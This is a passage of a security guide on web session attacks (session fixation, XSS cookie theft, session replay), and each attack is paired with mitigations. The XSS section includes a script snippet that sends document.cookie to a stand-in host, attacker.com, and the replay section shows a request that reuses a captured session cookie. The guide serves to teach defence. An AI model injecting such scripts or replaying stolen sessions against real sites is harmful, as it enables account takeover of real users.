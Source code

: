 #### **Attack Scenario**:
1. Attacker generates a session ID: `SESSIONID=123456`.
2. Victim logs in with this session ID.
3. Attacker uses the same session ID to impersonate the victim.

#### **Mitigations**:
- Regenerate session IDs after every authentication event.
- Reject externally supplied session IDs.

---

### 3. **Cross-Site Scripting (XSS) to Steal Session**
- **What it is**: An attacker injects malicious scripts to access session tokens from cookies or storage.
- **Causes**:
  - Improper validation or escaping of user input.
  - Storing session tokens in `document.cookie` or `localStorage`.

#### **Attack Scenario**:
1. Attacker injects JavaScript to read the session token.
   ```javascript
   <script>
       fetch('https://attacker.com?cookie=' + document.cookie);
   </script>
   ```
2. Session ID is sent to the attacker's server.

#### **Mitigations**:
- Use the `HttpOnly` cookie flag to prevent JavaScript access to cookies.
- Implement proper input validation and output encoding to prevent XSS.

---

### 4. **Session Replay Attacks**
- **What it is**: An attacker reuses a valid session ID to authenticate as a user.
- **Causes**:
  - Lack of session expiration or replay protection.
  - Predictable or static session IDs.

#### **Attack Scenario**:
1. Attacker captures a session ID.
2. Replays the same session ID to the server.
   ```http
   GET /profile HTTP/1.1
   Host: example.com
   Cookie: SESSIONID=abcdef12345
   ```

#### **Mitigations**:
- Implement one-time session tokens or timestamps to prevent reuse.
- Use cryptographically secure and random session IDs.
- Enforce short session lifetimes and idle timeouts.

---
